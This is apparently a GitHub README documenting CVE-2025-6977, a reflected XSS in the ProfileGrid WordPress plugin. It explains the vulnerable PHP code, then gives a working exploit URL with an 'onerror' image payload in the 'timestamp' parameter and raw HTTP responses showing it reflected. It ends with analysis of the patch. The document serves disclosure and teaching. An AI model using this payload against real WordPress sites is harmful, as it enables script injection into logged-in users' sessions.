 # CVE-2025-6977 – Reflected XSS in ProfileGrid WordPress Plugin (Unauthenticated)
- **CVE ID**: [CVE-2025-6977](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- **Vulnerability Type**: Reflected Cross-Site Scripting (XSS)
- **Plugin Affected**: ProfileGrid – User Profiles, Groups and Communities
- **Affected Version(s)**: ≤ 5.9.5.4
- **CVE Discovered By**: [Kenneth Billones (Wordfence)](https://www.wordfence.com/threat-intel/vulnerabilities/researchers/kenziy)
- **Exploit PoC Author**: [CANITEY](https://github.com/canitey)
## Description
The ProfileGrid – User Profiles, Groups and Communities plugin for WordPress is vulnerable to Reflected Cross-Site Scripting via the ‘pm_get_messenger_notification’ function in all versions up to, and including, 5.9.5.4 due to insufficient input sanitization and output escaping. This makes it possible for unauthenticated attackers to inject arbitrary web scripts in pages that execute if they can successfully trick a logged-in user into performing an action such as clicking on a link.

The vulnerable endpoint is: `/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=<vulnerable parameter>&activity=&tid=1`
## Vulnerable snippet
```php
// public/class-profile-magic-public.php
public function pm_get_messenger_notification() { // (1)
	$pmmessenger = new PM_Messenger();
	$timestamp   = filter_input( INPUT_GET, 'timestamp' );
	$activity    = filter_input( INPUT_GET, 'activity' );
	$tid        = filter_input( INPUT_GET, 'tid' );
			 if($tid!=0)
			 {
				$return     = $pmmessenger->pm_get_messenger_notification( $timestamp, $activity, $tid );
				echo $return;
			 }
	die;
}
```
Before diving into the code snippet above, let's first explain the functions involved.
1. `filter_input(<type>, '<variable name>')` this function has 2 main parameters to be passed (we will be introduced to another one shortly), 
	1. `<type>` One of the `INPUT_*` constants, in our case `INPUT_GET` this variable means that we will receive data from a get parameter.
	2. `<variable name>` in our context it means the get parameter name the we will parse the value from.

As shown in the code snippet above.

The function `pm_get_messenger_notification` uses the `filter_input` function in 2 positions to get the `timestamp` and `activity` values and put them in the corresponding variable. The issue lies in the fact that this implementation the `pm_get_messenger_notification` functions get both these values with no filtering or sanitization and pass them to `pm_get_messenger_notification` method of the `$pmmessenger` object (that's a different function) and I will explain what is the problem with that via the next code snippet.

```php
//  includes/class-profile-magic-messenger.php
// The snippet is more than 33 line so I cut the unneccessary line
public function pm_get_messenger_notification( $timestamp, $activity, $tid ) {

// -- snip --

	if ( !empty( $threads ) ) {
		$last_change_time      = $threads[0]->timestamp;
		$last_change_in_thread = strtotime( $last_change_time );


		if ( $last_change_in_thread > $last_ajax_call && ( $last_ajax_call != null||$tid=='' ) ) {
			if ( $tid=='' ) {
				return wp_json_encode( array() );
			}

			  $data   = true;
			  $result = array( // (2)
				  'activity'         => $activity,
				  'data_changed'     => $data,
				  'typing_timestamp' => $last_change_in_typing,
				  'timestamp'        => $last_change_in_thread,
			  );
			  $json   = wp_json_encode( $result );
			  return $json;
		}

			$data2 = false;
		if ( $tid!='' ) {
			$activity = $pmrequests->get_typing_status( $tid );
		} else {
			$activity ='nottyping';
		}
			$result = array(
				'activity'         => $activity,
				'data_changed'     => $data2,
				'typing_timestamp' => $last_change_in_typing,
				'timestamp'        => $last_change_in_thread,
				'timexxx'          =>$timestamp,
				'last_ajax'        =>$last_ajax_call,
			);

					$json =  wp_json_encode( $result );
					 return $json;

	}

			$result =array();
			$json   = wp_json_encode( $result );
			return $json;

}
```

as shown at (2), the function uses `timestamp` directly from the passed parameter and return it as in json response, so by passing an `XSS` payload to the endpoint triggering the `pm_get_messenger_notification` function at (1) it will pass with no filters to the method `pm_get_messenger_notification` and then be displayed in response, and because the `Content-Type` is declared as `text/html` for the response this would allow the XSS to be executed.

## Exploitation
After installing wordpress, with the target version of the plugin, XSS can be triggered via the following endpoing:
 `http://vulnerable.word.press/profilegrid/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=1753214905&activity=&tid=1`
 via the `timestamp` parameters.

PS: To have the payload reflected to you, you need to have an active session and then visit the URL, other than that the response would be 0

---
The is the normal response without XSS payload
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:09:25 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 94
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":"","data_changed":true,"typing_timestamp":false,"timestamp":1753459470}
```

And this is the response while passing `<s>` to the `timestamp` parameter
`/wp-admin/admin-ajax.php?action=pm_get_messenger_notification&timestamp=%3Cimg%20src=x%20onerror=alert()%3E&activity=ss&tid=4`
```
HTTP/1.1 200 OK
Date: Fri, 25 Jul 2025 17:11:58 GMT
Server: Apache/2.4.58 (Ubuntu)
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 133
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"activity":null,"data_changed":false,"typing_timestamp":false,"timestamp":1753459470,"timexxx":"<img src=x onerror=alert()>","last_ajax":0}
```

### Attached with this README an automated exploit file.

## Patch Analysis
The vulnerability was patched in version **5.9.5.5** of the plugin. The developers addressed the issue by sanitizing the `timestamp` parameter using:
```php
$timestamp = filter_input( INPUT_GET, 'timestamp', FILTER_VALIDATE_INT );
```

An additional preventive measure — which was not implemented — would have been to explicitly set the response content type to JSON:
```php
header('Content-Type: application/json');
```
This would instruct the browser to treat the response as pure JSON, thereby blocking script execution, even if malicious content slipped through. While the input sanitization fix neutralizes the attack, setting the correct `Content-Type` would further harden the response against XSS.

# References
- [CVE Record on CVE.org](https://www.cve.org/CVERecord?id=CVE-2025-6977)
- [Plugin Page – ProfileGrid](https://wordpress.org/plugins/profilegrid-user-profiles-groups-and-communities/)
- [Wordfence Advisory](https://www.wordfence.com/threat-intel/)

